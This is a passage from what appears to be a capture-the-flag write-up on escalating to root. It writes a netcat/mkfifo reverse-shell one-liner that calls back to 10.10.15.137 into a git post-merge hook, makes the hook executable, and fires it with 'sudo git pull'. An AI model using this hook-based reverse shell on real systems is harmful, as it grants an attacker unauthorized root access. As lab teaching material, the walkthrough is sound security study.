 ### Let’s get the reverse shell as a root!

> Add bash Shebang in .git/hooks/post-merge  
> `echo “#!/bin/bash” > .git/hooks/post-merge`

> Append reverse shell in .git/hooks/post-merge

> `echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.137 1235 >/tmp/f” >> .git/hooks/post-merge`

> And give it execute permission

> `chmod +x .git/hooks/post-merge`

![](img/1__G5lQN4ONYi0d2wMMrZqILA.png)

Set up the listener with Netcat:

`nc -nvlp 1235`

And run:

`sudo git pull`

Whoops. The repository is already up to date.

![](img/1__OtJqhJKFV6L0ErtvxRl8IQ.png)

To trigger it we need to make some change on the repository.

Edit `README.md`

![](img/1__i2nyLOZmb7o5Y3dhawdf2g.png)
